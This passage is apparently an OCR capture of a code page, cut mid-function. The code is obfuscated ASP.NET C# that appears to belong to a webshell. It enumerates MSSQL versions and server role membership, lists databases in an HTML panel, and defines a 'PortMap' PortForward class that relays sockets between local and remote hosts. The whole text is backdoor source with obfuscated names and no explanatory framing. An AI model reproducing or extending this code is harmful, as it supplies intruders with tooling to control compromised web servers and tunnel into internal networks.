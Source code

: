 {
 if(item.Selected=true)
 {
 item.Selected=false;
 }
}
Pvf.Items.Clear();
Pvf.Items.Add("-- Select a DataBase --");
Pvf.Items[0].Value="";
for(int i=0;i&lt;dbs.Rows.Count;i++)
{
db_name+=dbs.Rows[i][0].ToString().Replace(cdb.Rows[0][0].ToString(),"&lt;font color=blue&gt;"+cdb.Rows[0][0].ToString()+"&lt;/font&gt;")+"&nbsp;|&nbsp;";
Pvf.Items.Add(dbs.Rows[i][0].ToString());
}
irTU.InnerHtml="&lt;p&gt;&lt;font color=red&gt;MSSQL Version&lt;/font&gt; : &lt;i&gt;&lt;b&gt;"+jHlh+"&lt;/b&gt;&lt;/i&gt;&lt;/p&gt;&lt;p&gt;&lt;font color=red&gt;SrvRoleMember&lt;/font&gt; : &lt;i&gt;&lt;b&gt;"+dbo+"&lt;/b&gt;&lt;/i&gt;&lt;/p&gt;";
}
else
{
uXevN.Visible=false;
irTU.Visible=false;
xTZY();
}
}
catch(Exception e)
{
dQIIF.Visible=false;
}
}
public void MHLv()
{
WICxe();
hOWTm.Visible=true;
Bin_H2_Title.InnerText="PortMap &gt;&gt;";
}
public class PortForward
{
public string Localaddress;
public int LocalPort;
public string RemoteAddress;
public int RemotePort;
string type;
Socket ltcpClient;
Socket rtcpClient;
Socket server;
byte[] DPrPL=new byte[2048];
byte[] wvZv=new byte[2048];
public struct session
{
public Socket rdel;
public Socket ldel;
public int llen;
public int rlen;
}
public static IPEndPoint mtJ(string host,int port)
{
IPEndPoint iep=null;
IPHostEntry aGN=Dns.Resolve(host);
IPAddress rmt=aGN.AddressList[0];
iep=new IPEndPoint(rmt,port);
return iep;
}